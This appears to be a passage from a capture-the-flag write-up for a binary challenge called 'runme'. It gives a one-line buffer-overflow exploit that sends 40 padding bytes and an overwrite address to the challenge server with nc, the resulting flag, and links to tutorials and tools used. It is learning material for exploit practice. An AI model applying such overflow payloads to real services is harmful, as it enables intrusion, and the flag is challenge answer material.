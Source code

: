 
exploit:
```
python -c "print 'A'*40+'\xe5\x55\xce\xac'" | nc imaginary.ml 10006
```

Flag: `flag{0v3rwr1t1ng_4_v4r1abl3?_c00l!}`

Resources used for runme:
- [0xRICK's intro to buffer overflows](https://0xrick.github.io/binary-exploitation/bof1/)
- [Hacktober CTF Writeup](https://veteransec.com/2018/10/19/hacktober-ctf-2018-binary-analysis-larry/)
- [StackOverflow on reading input](https://stackoverflow.com/questions/16508817/how-do-i-provide-input-to-a-c-program-from-bash)
- [Online Disassembler](https://onlinedisassembler.com/odaweb/)
- [Install Ghidra on Kali Linux](https://executeatwill.com/2019/04/04/Install-Ghidra-on-Kali-Linux/) ([+tutorial](https://www.youtube.com/watch?v=fTGTnrgjuGA))
- [kgbuquerin's video on a similar exploit](https://www.youtube.com/watch?v=C-k516BHPl8)

